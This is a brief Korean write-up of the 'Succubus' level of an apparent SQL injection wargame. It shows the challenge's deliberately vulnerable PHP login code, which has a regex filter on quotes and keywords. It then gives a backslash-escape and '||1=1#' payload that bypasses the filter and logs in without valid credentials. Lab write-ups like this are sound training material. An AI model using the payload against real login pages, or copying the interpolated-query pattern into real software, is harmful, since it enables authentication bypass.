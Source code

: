 # Succubus

소스코드는 다음과 같다.

```php
<?php
  include "./config.php"; 
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  if(preg_match('/\'/',$_GET[id])) exit("HeHe");
  if(preg_match('/\'/',$_GET[pw])) exit("HeHe");
  $query = "select id from prob_succubus where id='{$_GET[id]}' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) solve("succubus"); 
  highlight_file(__FILE__); 
?>
```

`'`을 우회해서, `id`와 `pw`를 모르는채로 로그인을 해야한다.

`\`을 이용해 `'`를 우회해주고 그 후에 `||1=1`을 통해 로그인을 시도해준다. 마지막은 `%23`인 `#`으로 마무리

> ?id=\&pw=\|\|1=1%23

그러면 쿼리는 이렇게 된다.

```sql
select id from prob_succubus where id='\' and pw='||1=1#'
```

